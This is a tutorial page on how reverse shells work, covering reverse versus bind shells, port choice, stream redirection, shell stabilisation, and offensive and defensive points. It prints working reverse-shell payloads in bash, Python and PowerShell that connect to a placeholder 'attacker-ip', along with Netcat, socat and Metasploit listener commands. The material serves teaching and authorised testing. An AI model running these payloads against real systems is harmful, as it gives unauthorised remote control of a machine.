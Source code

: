 ```yaml
---
title: Core Concepts of Reverse Shells
description: Understanding the fundamental principles and mechanics of reverse shells
---
```


# Core Concepts of Reverse Shells

This section explores the fundamental principles and mechanics that make reverse shells work, providing a solid foundation for understanding more advanced techniques.

## What Is a Reverse Shell?

A reverse shell is a type of shell connection in which the target machine initiates a connection back to the attacker's machine, rather than the attacker connecting to the target. This approach effectively reverses the typical client-server relationship, with the target acting as the client and the attacker's system serving as the server.

<Tabs defaultValue="comparison" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="comparison">Reverse vs. Bind Shells</TabsTrigger>
    <TabsTrigger value="mechanics">How They Work</TabsTrigger>
    <TabsTrigger value="components">Key Components</TabsTrigger>
  </TabsList>
  <TabsContent value="comparison">
    <div className="grid grid-cols-2 gap-4">
      <div className="border p-4 rounded-md">
        <h3 className="text-lg font-bold">Reverse Shell</h3>
        <ul className="list-disc pl-5">
          <li>Target connects back to attacker</li>
          <li>Bypasses inbound firewall restrictions</li>
          <li>Works when target is behind NAT</li>
          <li>Requires attacker to have public IP or reachable address</li>
          <li>More commonly used in penetration testing</li>
        </ul>
      </div>
      <div className="border p-4 rounded-md">
        <h3 className="text-lg font-bold">Bind Shell</h3>
        <ul className="list-disc pl-5">
          <li>Attacker connects to target</li>
          <li>Requires open inbound port on target</li>
          <li>Often blocked by firewalls</li>
          <li>Target must be directly reachable</li>
          <li>Simpler to implement but less reliable</li>
        </ul>
      </div>
    </div>
  </TabsContent>
  <TabsContent value="mechanics">
    <ol className="list-decimal pl-5">
      <li>Attacker sets up a listener on a specific port (e.g., using Netcat)</li>
      <li>Target executes code that creates a connection to the attacker's IP and port</li>
      <li>The connection carries the target's command shell input/output streams</li>
      <li>Commands entered on the attacker's machine are executed on the target</li>
      <li>Output from these commands is sent back to the attacker</li>
    </ol>
    <p className="mt-4">This process effectively gives the attacker remote command-line access to the target system, bypassing many common security controls.</p>
  </TabsContent>
  <TabsContent value="components">
    <ul className="list-disc pl-5">
      <li><strong>Listener</strong>: The component on the attacker's machine that waits for incoming connections</li>
      <li><strong>Payload</strong>: The code executed on the target that establishes the connection</li>
      <li><strong>Transport Protocol</strong>: Typically TCP, though UDP and other protocols can be used</li>
      <li><strong>Shell Environment</strong>: The command interpreter (bash, cmd.exe, PowerShell, etc.) that processes commands</li>
      <li><strong>I/O Redirection</strong>: The mechanism that redirects input/output streams over the network connection</li>
    </ul>
  </TabsContent>
</Tabs>

## Network Communication Fundamentals

Understanding the network communication aspects of reverse shells is crucial for both implementation and troubleshooting.

### TCP vs. UDP

Most reverse shells use TCP (Transmission Control Protocol) because it:
- Provides reliable, ordered delivery of data
- Establishes a persistent connection
- Confirms successful transmission of commands and responses

UDP-based reverse shells are less common but may be useful in specific scenarios where:
- TCP traffic is heavily monitored or filtered
- Connection reliability is less critical than evasion
- Stateless communication is preferred

### Ports and Listeners

When setting up a reverse shell:

- **Port Selection**: Choose ports that are:
  - Commonly allowed through firewalls (80, 443, 53, 8080)
  - Associated with expected outbound traffic from the target
  - Not already in use on your attacking system

- **Listener Configuration**:
  ```bash
  # Basic Netcat listener
  nc -lvnp 443
  
  # Socat listener with more features
  socat -d -d TCP-LISTEN:443,fork STDOUT
  
  # Metasploit listener
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST attacker-ip
  set LPORT 443
  run
  ```

## I/O Redirection

The core mechanism of a reverse shell involves redirecting standard input, output, and error streams over the network connection:

```
┌─────────────┐                 ┌─────────────┐
│             │                 │             │
│  Attacker   │◄───Standard─────┤   Target    │
│  (Server)   │    Output       │  (Client)   │
│             │                 │             │
│             │─────Standard────►│             │
│             │     Input        │             │
└─────────────┘                 └─────────────┘
```

### Stream Redirection in Different Languages

<Tabs defaultValue="bash" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="bash">Bash</TabsTrigger>
    <TabsTrigger value="python">Python</TabsTrigger>
    <TabsTrigger value="powershell">PowerShell</TabsTrigger>
  </TabsList>
  <TabsContent value="bash">
    ```bash
    # Redirecting stdin, stdout, and stderr in Bash
    bash -i >& /dev/tcp/attacker-ip/443 0>&1
    
    # Breaking it down:
    # bash -i                 # Interactive bash shell
    # >&                      # Redirect stdout and stderr
    # /dev/tcp/IP/PORT        # Special file representing TCP connection
    # 0>&1                    # Redirect stdin to the same connection
    ```
  </TabsContent>
  <TabsContent value="python">
    ```python
    # Python reverse shell with socket-based I/O redirection
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("attacker-ip",443))
    os.dup2(s.fileno(),0)  # Redirect stdin
    os.dup2(s.fileno(),1)  # Redirect stdout
    os.dup2(s.fileno(),2)  # Redirect stderr
    subprocess.call(["/bin/sh","-i"])
    ```
  </TabsContent>
  <TabsContent value="powershell">
    ```powershell
    # PowerShell stream redirection
    $client = New-Object System.Net.Sockets.TCPClient("attacker-ip",443)
    $stream = $client.GetStream()
    [byte[]]$bytes = 0..65535|%{0}
    
    # Command execution and I/O redirection loop
    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
        $sendback = (iex $data 2>&1 | Out-String)
        $sendback2 = $sendback + "PS " + (pwd).Path + "> "
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()
    }
    $client.Close()
    ```
  </TabsContent>
</Tabs>

## Shell Stability and Interactivity

Raw reverse shells often have limitations:
- Lack of tab completion
- No command history
- Cannot run interactive programs
- Vulnerable to termination if the connection is disrupted

### Shell Stabilization Techniques

<Stepper>
  <StepperItem title="Python PTY Method">
    On Linux targets, upgrade a basic shell using Python:
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
    This creates a pseudo-terminal, improving interactivity.
  </StepperItem>
  <StepperItem title="Stty Raw Mode">
    Background the shell with Ctrl+Z, then:
    ```bash
    stty raw -echo
    fg
    ```
    This disables local terminal echo and allows special characters to pass through.
  </StepperItem>
  <StepperItem title="Set Terminal Environment">
    ```bash
    export TERM=xterm
    ```
    This enables terminal features like clear screen and command editing.
  </StepperItem>
  <StepperItem title="Adjust Terminal Size">
    In a separate terminal on the attacker machine:
    ```bash
    stty size
    ```
    Then in the reverse shell:
    ```bash
    stty rows 38 columns 116
    ```
    Replace the numbers with your actual terminal dimensions.
  </StepperItem>
</Stepper>

## Security Implications

Understanding reverse shells from a security perspective is essential for both offensive and defensive purposes:

### Offensive Considerations

- **Initial Access**: Reverse shells typically require some form of initial access or code execution
- **Command and Control**: They serve as a basic command and control channel
- **Persistence**: Can be combined with persistence mechanisms for maintaining access
- **Privilege Escalation**: Often used after gaining initial access to escalate privileges

### Defensive Considerations

- **Network Monitoring**: Watch for unusual outbound connections
- **Egress Filtering**: Restrict outbound connections to approved services and ports
- **Application Controls**: Implement whitelisting to prevent unauthorized executables
- **Endpoint Protection**: Deploy solutions that can detect suspicious process behavior
- **Network Segmentation**: Limit lateral movement capabilities

## Ethical and Legal Considerations

Reverse shells are powerful tools that should only be used:
- During authorized penetration tests
- On systems you own or have explicit permission to test
- Within the scope of a clearly defined engagement
- In compliance with all applicable laws and regulations

Unauthorized use of reverse shells on systems without permission is illegal in most jurisdictions and can result in severe legal consequences.

In the next section, we'll explore the various types of reverse shells and their implementations across different languages and platforms.
